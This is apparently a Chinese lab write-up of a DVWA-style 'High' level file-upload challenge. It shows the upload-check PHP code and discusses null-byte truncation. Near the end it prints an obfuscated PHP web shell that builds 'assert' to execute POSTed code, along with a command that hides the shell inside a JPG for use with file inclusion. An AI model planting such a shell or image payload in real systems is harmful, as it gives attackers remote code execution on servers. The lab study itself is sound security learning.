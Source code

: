 ```php
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

其中，需要介绍的函数有

| 函数                          | 解释                                                  |
| ----------------------------- | ----------------------------------------------------- |
| substr(string, start, length) | 在string中，从start处开始截取length长度的字符串返回。 |
| strrpos(string, find)         | 查找find在string中最后出现的位置。                    |

High等级将上传文件的文件后缀取出来，判断最后一个`.`后面的后缀是否为`jpg`、`jpeg`、`png`。若不是则无法上传。

因为最后是检验最后一个点后面的后缀名，因此可以考虑使用`0x00`截断。

关于`0x00`和`%00`的关系，我们可以在[安~然](https://blog.csdn.net/zpy1998zpy/article/details/80545408)的这篇博文上找到答案。

之后bp时间后发现没有实现，查资料发现是php<5.3.4才可能存在此漏洞。

之后又尝试了图片马，结合文件包含漏洞进行测试，可上传成功，但是访问时报错，是语法问题，和引号有关。报错内容如下：

<img src="https://superj.oss-cn-beijing.aliyuncs.com/20200528174332.png" style="zoom:50%;" />

```php
<?php $a1='ass';$a2='ert';$arr=array($a1.$a2=>"test");$arr1=array_flip($arr);$arr2="$arr1[test]";@$arr2($_POST[shell]); ?>
```

```shell
copy 1.jpg/b+shell.php/a 3.jpg
```

通过hackbar访问，成功，但是通过蚁剑连接的时候出现问题，返回为空。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200530103712.png)
